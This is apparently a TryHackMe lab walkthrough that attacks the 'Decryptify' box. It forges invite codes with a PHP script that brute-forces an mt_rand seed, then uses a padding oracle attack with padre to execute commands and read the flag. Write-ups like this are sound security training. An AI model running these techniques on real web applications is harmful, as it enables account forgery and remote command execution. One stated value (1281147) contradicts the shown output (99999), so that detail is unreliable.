


---

Name: Decryptify 
Difficulty: Medium 
URL: https://tryhackme.com/room/decryptify
Tags: Linux, Web
Category: "TryHackMe"
Description: "A hands-on TryHackMe walkthrough for 0. Setup, covering the approach and key findings."
---

# 0. Setup
Adding the ip address to /etc/hosts so we can access the website using decryptify.thm 
```bash
nvim /etc/hosts
```

```bash
10.114.142.47   decryptify.thm
```

And starting the vpn
```bash
openvpn try_hack_me.ovpn
```

Lastly, testing connection
```bash
ping decryptify.thm
```

```bash - output
PING decryptify.thm (10.114.142.47) 56(84) bytes of data.
64 bytes from decryptify.thm (10.114.142.47): icmp_seq=1 ttl=62 time=42.2 ms
64 bytes from decryptify.thm (10.114.142.47): icmp_seq=2 ttl=62 time=37.4 ms
64 bytes from decryptify.thm (10.114.142.47): icmp_seq=3 ttl=62 time=53.2 ms
64 bytes from decryptify.thm (10.114.142.47): icmp_seq=4 ttl=62 time=51.0 ms

--- decryptify.thm ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 37.382/45.931/53.201/6.428 ms
```

# 1.0 Initial Scan
First by enumerating open ports
```bash
rustscan -a decryptify.thm --ulimit 5000 -- -sC -sV 
```

We find that SSH is running on the default port and a webserver on 1337
```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 19:3b:34:64:96:2b:99:93:27:f5:88:f2:81:f4:d2:c9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDTBtY7y11CGsEKoFDBPMnLVbvcp7iAqEmhgfZFxsuECOS/zf0BXDANc0nPxMckeCIbe5MvAQygfszEOgZCQo5Na9Da3oFYQ4PjXOqTUo6hfZMY0ipLehVEllFWXc9nwWxWC0+uz6FgBcnnj8dyZEtMXIhtaKffhnRDezre51O7uUxAYa5UIk7D82OXV1o0tUBYu8a5lNYvtPj4XmdHZRSDz7aQ4kZXPqbDolTvfP4nI5eru1GqsWRmopYifBKTOIhbGolNaCBLMqHHoySXoUVJ82vaHgNAdbkjiqUAg3bI6ZLkFor9vxfXjY/grzsugF5ZzPd7Y/U5GWAQifArCvTlcvL4CYibQi+kxPAEV8QpVSqnVg0Zdt0ODO48qNK8CVf/F1hiK/y8O/Qjkf8wB3d7rLujQ72WFQURmNSBXIwHU58STbXItEsWSiMY05W9I2yc2I7WlUTFShsootmWKnnpc+4AYokLFi0tzayB1Zzqi3WFzNy23n0K8rdyGgjDRo0=
|   256 eb:a9:26:c4:db:09:72:d4:4f:e5:48:8a:89:a9:d9:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGIrLGf8l8WcLYIy9Kca29jWwj4YCmycb2jxXx4O/Orh+Z20Zd0tf9F+CYgl8el1Q5zWd0ErEt0oFLZvwtVEJCQ=
|   256 96:2d:5d:bd:be:f8:45:b3:7f:5d:bc:9f:80:c1:24:b1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOXua6W853ZmIdxdzW1ck5TM1klBRhaghbmvkoDSH7us
1337/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login - Decryptify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While we take a look at the website we start gobuster for directory enumeration
```bash
gobuster dir -u http://decryptify.thm:1337/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 10 -x txt,php,html,bak,zip,log
```

We see a login page and some API documentation
<!--TODO insert screen shot-->

Taking a look at the page source we find an obfuscated api.js. After using AI we can get a more readable script
```javascript
const values = [
    "90209ggCpyY",
    "16OTYqOr",
    "861cPVRNJ",
    "474AnPRwy",
    "H7gY2tJ9wQzD4rS1",
    "5228dijopu",
    "29131EDUYqd",
    "8756315tjjUKB",
    "1232020YOKSiQ",
    "7042671GTNtXE",
    "1593688UqvBWv"
];

// Equivalent to:
const c = values[4];

console.log(c); // H7gY2tJ9wQzD4rS1
```

We try to use it as the password for the API documentation, and it works

<!--TODO insert screenshot-->

We find how the tokens are generated

```php
This function generates a invite_code against a user email.

<?php

// Token generation example
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}
     $seed_value = calculate_seed_value($email, $constant_value);
     mt_srand($seed_value);
     $random = mt_rand();
     $invite_code = base64_encode($random);
```

Seems like it takes their email and a constant value we do not know and creates the seed for the random invite code. If we find that value we could forge our own invite codes


In the meantime gobuster finished running and we found some interesting files
```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://decryptify.thm:1337/
[+] Method:                  GET
[+] Threads:                 1000
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              zip,log,txt,php,html,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
header.php           (Status: 200) [Size: 370]
footer.php           (Status: 200) [Size: 245]
css                  (Status: 301) [Size: 321] [--> http://decryptify.thm:1337/css/]
js                   (Status: 301) [Size: 320] [--> http://decryptify.thm:1337/js/]
api.php              (Status: 200) [Size: 1043]
javascript           (Status: 301) [Size: 328] [--> http://decryptify.thm:1337/javascript/]
index.php            (Status: 200) [Size: 3220]
logs                 (Status: 301) [Size: 322] [--> http://decryptify.thm:1337/logs/]
dashboard.php        (Status: 302) [Size: 0] [--> logout.php]
phpmyadmin           (Status: 301) [Size: 328] [--> http://decryptify.thm:1337/phpmyadmin/]
```

Looking at /logs we find app.log which shows an invite code created for alpha@fake.thm (sadly this user has been deactivated), and a new user hello@fake.thm
```log
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```

Let's decode it
```bash
echo "MTM0ODMzNzEyMg==" | base64 -d

1348337122
```
<!--TODO insert error message for both hello and alpha-->
<!--TODO insert screenshot with the error message-->

Knowing the source code for token generating and the one generated for alpha@fake.thm we can brute force the constant value
```php
<?php

$email = "alpha@fake.thm";
$desired_random = 1348337122;

// Brute-force the constant_value
function find_constant_value($email, $desired_random) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));

    for ($constant_value = 0; $constant_value <= 9999999; $constant_value++) {
        $seed_value = hexdec($email_length + $constant_value + $email_hex);

        mt_srand($seed_value);
        $random = mt_rand();

        if ($random === $desired_random) {
            return $constant_value;
        }
    }

    return null;
}

$constant = find_constant_value($email, $desired_random);

if ($constant !== null) {
    echo "[+] Found constant_value: $constant\n";

    // Verify
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));

    $seed_value = hexdec($email_length + $constant + $email_hex);

    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    echo "[+] Seed:        $seed_value\n";
    echo "[+] Random:      $random\n";
    echo "[+] Invite code: $invite_code\n";
} else {
    echo "[-] constant_value not found in searched range.\n";
}
```

After running the script we find that the value is 1281147
```bash
php find_constant_value.php

[+] Found constant_value: 99999
[+] Seed:        1324931
[+] Random:      1348337122
[+] Invite code: MTM0ODMzNzEyMg==
```

And with it we generate an invite code for hello@fake.thm
```php
<?php

$email = "hello@fake.thm";
$constant_value = 99999;

function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);

    return $seed_value;
}

$seed_value = calculate_seed_value($email, $constant_value);

mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);

echo "[+] Seed: $seed_value\n";
echo "[+] Random: $random\n";
echo "[+] Invite code: $invite_code\n";
```
```bash
php invite_code.php
[+] Seed: 1062983
[+] Random: 461589891
[+] Invite code: NDYxNTg5ODkx
```

With it we manage to log into that account



Looking at the page source we find this hidden form

```html
<form method="get">
    <input type="hidden" name="date" value="zi8UVsdJind1ZjoBNUtrE3dN/lC9r+mSmkOAVaP9mQU=">
</form>
```

We try to send some random values and get some errors
```http
http://decryptify.thm:1337/dashboard.php?date=test
```

```txt
 Warning: openssl_decrypt(): IV passed is only 3 bytes long, cipher expects an IV of precisely 8 bytes, padding with \0 in /var/www/html/dashboard.php on line 28

© Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length Decryptify
```

Since it revealed information about the padding erros I decided to search more about it on the internet. Found out about Padding oracle attacks and the tool called Padre
<!--TODO add explanation of the attack and what is happening-->

I have installed Padre (https://github.com/glebarez/padre)
```bash
go install github.com/glebarez/padre@latest
```

And used it to exploit this vulnerability
```bash
 ~/go/bin/padre -u 'http://decryptify.thm:1337/dashboard.php?date=$' --cookie 'PHPSESSID=3v7r9fboil80fvt81ifqq1nv73; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' 'cGwnPo2Y414b+GvbKPymAqVMi9SphOmzCpsmbcry7is='
```

- "-u" specifies the URL
- "--cookie" my session cookies
- the last strings is a valid padding value

```bash
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08                                                                                                                         [24/24] | reqs: 3741 (287/sec)
```

Now we use -enc to run commands
```bash
~/go/bin/padre -u 'http://decryptify.thm:1337/dashboard.php?date=$' --cookie 'PHPSESSID=3v7r9fboil80fvt81ifqq1nv73; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -enc 'id'    
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] aTDy3obPA99iZWlyYnNncg==
```

Changing the date parameter to that value we see the output
```http
http://decryptify.thm:1337/dashboard.php?date=aTDy3obPA99iZWlyYnNncg==
```



Now we just have to find the flag and cat it

1. List the contents of /home
```bash
ls /home --> wFAH7TsYN4hDRfHlPDJTBWdsbmdpemJh
ubuntu
```

2. List the contents of /home/ubuntu
```bash
ls /home/ubuntu --> feShVggCVOLYWSNtpQx633pubnplZWVp
flag.txt node_modules package-lock.json test.sh 
```

3. Get the flag
```bash
cat /home/ubuntu/flag.txt --> ssUq2tljVNcVgQ/woCjqHPUvFyZD7adQ9ECpW5JV0ydlbmdhemZnYg==
THM{REDACTED}
```
